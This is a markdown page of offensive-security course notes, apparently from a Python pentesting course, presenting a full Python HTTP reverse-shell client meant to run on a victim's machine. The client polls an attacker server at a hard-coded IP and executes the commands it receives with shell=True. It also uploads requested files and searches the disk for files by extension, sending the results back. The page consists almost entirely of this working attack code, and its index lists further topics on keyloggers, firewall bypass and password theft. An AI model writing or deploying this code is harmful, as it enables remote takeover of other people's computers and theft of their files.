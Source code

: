 ```yaml
---
title: Coding a reverse shell that searches files
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a reverse shell that searches files


From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run in the victim's machine.

```python

import requests
import os
import subprocess
import time

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    elif 'search' in command: #The Formula is search <path>*.<file extension>  -->for example let's say that we got search C:\\*.pdf
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it

#os.walk is a function that will naviagate ALL the directoies specified in the provided path and returns three values:-
#1-dirpath is a string contains the path to the directory
#2-dirnames is a list of the names of the subdirectories in  dirpath
#3-files is a list of the files name in dirpath

#Once we got the files list, we check each file (using for loop), if the file extension was matching what we are looking for, then we add the directory path into list string.



        for dirpath, dirname, files in os.walk(path):
           for file in files:
               if file.endswith(ext):
                   lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
